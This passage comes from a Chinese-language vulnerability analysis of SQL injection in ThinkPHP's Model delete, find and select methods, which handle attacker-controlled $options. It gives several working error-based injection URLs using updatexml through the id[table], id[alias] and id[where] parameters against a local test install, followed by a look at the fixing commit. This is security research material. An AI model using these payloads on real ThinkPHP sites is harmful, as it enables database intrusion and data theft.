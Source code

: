 修改Application\Common\Conf\config.php配置文件，添加数据库配置信息。[![](https://xzfile.aliyuncs.com/media/upload/picture/20180824173127-79df83fc-a780-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180824173127-79df83fc-a780-1.png)

之后在Application\Home\Controller\IndexController.class.php 添加以下代码:

```
table：http://127.0.0.1/index.php?m=Home&amp;c=Index&amp;a=test&amp;id[table]=user where%201%20and%20updatexml(1,concat(0x7e,user(),0x7e),1)--

alias：http://127.0.0.1/index.php?m=Home&amp;c=Index&amp;a=test&amp;id[alias]=where%201%20and%20updatexml(1,concat(0x7e,user(),0x7e),1)--

where:http://127.0.0.1/index.php?m=Home&amp;c=Index&amp;a=test&amp;id[where]=1%20and%20updatexml(1,concat(0x7e,user(),0x7e),1)--
```



[![](https://xzfile.aliyuncs.com/media/upload/picture/20180824173127-79eff908-a780-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180824173127-79eff908-a780-1.png)

而delete()方法的话同样，这里粗略举三个例子，table,alias,where，但使用table和alias的时候，同时还必须保证where不为空（详细原因后面会说）

```
where:http://127.0.0.1/index.php?m=Home&amp;c=Index&amp;a=test&amp;id[where]=1%20and%20updatexml(1,concat(0x7e,user(),0x7e),1)--

alias:http://127.0.0.1/index.php?m=Home&amp;c=Index&amp;a=test&amp;id[where]=1%20and%20updatexml(1,concat(0x7e,user(),0x7e),1)--

table:http://127.0.0.1/index.php?m=Home&amp;c=Index&amp;a=test&amp;id[table]=user%20where%201%20and%20updatexml(1,concat(0x7e,user(),0x7e),1)--&amp;id[where]=1
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20180824173127-7a0137e0-a780-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180824173127-7a0137e0-a780-1.png)



## 0x02 漏洞分析

通过github上的commit 对比其实可以粗略知道，此次更新主要是在ThinkPHP/Library/Think/Model.class.php文件中，其中对于delete，find，select三个函数进行了修改。

delete函数[![](https://xzfile.aliyuncs.com/media/upload/picture/20180824173128-7a13f5ce-a780-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180824173128-7a13f5ce-a780-1.png)

select函数[![](https://xzfile.aliyuncs.com/media/upload/picture/20180824173128-7a29932a-a780-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180824173128-7a29932a-a780-1.png)

find函数[![](https://xzfile.aliyuncs.com/media/upload/picture/20180824173128-7a3ba8c6-a780-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20180824173128-7a3ba8c6-a780-1.png)

对比三个方法修改的地方都有一个共同点：

> 把外部传进来的$options，修改为$this-&gt;options，同时不再使用$this-&gt;_parseOptions对于$options进行表达式分析。

思考是因为$options可控，再经过_parseOptions函数之后产生了sql注入。
